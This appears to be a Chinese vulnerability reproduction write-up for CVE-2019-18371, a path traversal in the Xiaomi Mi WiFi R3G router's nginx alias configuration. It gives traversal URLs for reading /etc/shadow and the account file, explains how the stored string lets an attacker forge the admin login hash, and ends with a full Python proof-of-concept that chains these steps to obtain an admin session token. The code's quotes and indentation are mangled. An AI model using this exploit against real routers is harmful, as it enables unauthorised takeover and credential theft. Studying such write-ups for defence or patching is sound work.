

# （CVE-2019-18371） Xiaomi Mi WiFi R3G 任意文件读取漏洞

## 一、漏洞简介

Xiaomi Mi WiFi R3G是中国小米科技（Xiaomi）公司的一款3G路由器。 Xiaomi Mi WiFi R3G 2.28.23-stable之前版本中存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。

## 二、漏洞影响

Xiaomi Mi WiFi R3G 2.28.23-stable之前版本

## 三、复现过程

#### 小米路由器的nginx配置文件错误，导致目录穿越漏洞，实现任意文件读取（无需登录）

nginx配置不当可导致目录穿越漏洞，

```
location /xxx {
  alias /abc/;
} 
```

可通过访问`http://domain.cn/xxx../etc/passwd`实现目录穿越访问上级目录及其子目录文件。

在小米路由器的文件`/etc/sysapihttpd/sysapihttpd.conf`中，存在

```
location /api-third-party/download/extdisks {
	alias /extdisks/;
} 
```

故可以任意文件读取根目录下的所有文件，而且是root权限，如访问`http://192.168.31.1/api-third-party/download/extdisks../etc/shadow`



类似的问题，存在多处如

```
location /backup/log {
	alias /tmp/syslogbackup/;
} `location /api-third-party/download/public {

alias /userdisk/data/;

}

location /api-third-party/download/private {

alias /userdisk/appdata/;

}` 
```

#### 通过任意文件读取，登录路由器后台

不是明文存储密码，进行一定分析。关注两个过程，一是登录时前端js生成http post请求参数过程，二是验证用户登陆的后端过程。

*   登录时前端js生成http post请求参数过程

    ```
    var Encrypt = {
        key: 'a2ffa5c9be07488bbb04a3a47d3c5f6a',
        iv: '64175472480004614961023454661220',
        nonce: null,
        init: function(){
            var nonce = this.nonceCreat();
            this.nonce = nonce;
            return this.nonce;
        },
        nonceCreat: function(){
            var type = 0;
            // 自己的mac地址
            var deviceId = '<%=mac%>';
            var time = Math.floor(new Date().getTime() / 1000);
            var random = Math.floor(Math.random() * 10000);
            return [type, deviceId, time, random].join('_');
        },
        oldPwd : function(pwd){ // oldPwd = sha1(nonce + sha1(pwd + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))
            return CryptoJS.SHA1(this.nonce + CryptoJS.SHA1(pwd + this.key).toString()).toString();
        },
      //...
    }; 
    ```

    可知`oldPwd = sha1(nonce + sha1(pwd + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))`，登陆请求包为

    ```
    POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1
    Host: 192.168.31.1 `username=admin&password=c9e62da7b8a0b7a4918c5a90912ba81a9717f9ab&logtype=2&nonce=0_mac地址_时间戳_5248` 
    ```

*   验证用户登陆的后端过程

    调用`XQSecureUtil.checkUser`函数

    ```
    function checkUser(user, nonce, encStr)

    – 从xiaoqiang 配置文件中读取信息

    local password = XQPreference.get(user, nil, “account”)

    if password and not XQFunction.isStrNil(encStr) and not XQFunction.isStrNil(nonce) then

    if XQCryptoUtil.sha1(nonce…password) == encStr then

    return true

    end

    end

    XQLog.log(4, (luci.http.getenv(“REMOTE_ADDR”) or “”)…" Authentication failed", nonce, password, encStr)

    return false

    end 
    ```

    跟进`XQPreference.get`函数易知道是从`/etc/config/account`文件中读取某个字符串，这里称它为`accountStr`。

    `checkUser`函数判断等式为(encStr为参数oldPwd)

    ```
    sha1(nonce + sha1(密码 + ‘a2ffa5c9be07488bbb04a3a47d3c5f6a’))
    ```

`sha1(nonce + accountStr)` 

则

```
accountStr == sha1(密码 + ‘a2ffa5c9be07488bbb04a3a47d3c5f6a’) 
```

故，只需要读取`/etc/config/account`得到`accountStr`即可构造如下数据包登陆

```
POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1

Host: 192.168.31.1 `username=admin&password=sha1(nonce + account中保存的字符串)&logtype=2&nonce=0_mac地址_时间戳_5248` 
```

### poc

> arbitrary_file_read_vulnerability.py


> 可以获取到登录的stok

```
import os
import re
import time
import base64
import random
import hashlib
import requests
from Crypto.Cipher import AES

# proxies = {“http”:“[http://127.0.0.1:8080](http://127.0.0.1:8080)”}

proxies = {}

def get_mac():

## get mac

r0 = requests.get(“[http://192.168.31.1/cgi-bin/luci/web](http://192.168.31.1/cgi-bin/luci/web)”, proxies=proxies)

mac = re.findall(r’deviceId = ‘(.*?)’’, r0.text)[0]

# print(mac)	

return mac

def get_account_str():

## read /etc/config/account

r1 = requests.get(“[http://192.168.31.1/api-third-party/download/extdisks../etc/config/account](http://192.168.31.1/api-third-party/download/extdisks../etc/config/account)”, proxies=proxies)

print(r1.text)

account_str = re.findall(r’admin’? ‘(.*)’’, r1.text)[0]

return account_str

def create_nonce(mac):

type_ = 0

deviceId = mac

time_ = int(time.time())

rand = random.randint(0,10000)

return “%d_%s_%d_%d”%(type_, deviceId, time_, rand)

def calc_password(nonce, account_str):

m = hashlib.sha1()

m.update((nonce + account_str).encode(‘utf-8’))

return m.hexdigest()

mac = get_mac()

account_str = get_account_str()

## login, get stok

nonce = create_nonce(mac)

password = calc_password(nonce, account_str)

data = “username=admin&password={password}&logtype=2&nonce={nonce}”.format(password=password,nonce=nonce)

r2 = requests.post(“[http://192.168.31.1/cgi-bin/luci/api/xqsystem/login](http://192.168.31.1/cgi-bin/luci/api/xqsystem/login)”,

data = data,

headers={“User-Agent”: “Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0”,

“Content-Type”: “application/x-www-form-urlencoded; charset=UTF-8”},

proxies=proxies)

# print(r2.text) `stok = re.findall(r’“token”:"(.*?)"’,r2.text)[0]

print(“stok=”+stok)` 
```

## 参考链接

> https://github.com/UltramanGaia/Xiaomi_Mi_WiFi_R3G_Vulnerability_POC/blob/master/report/report.md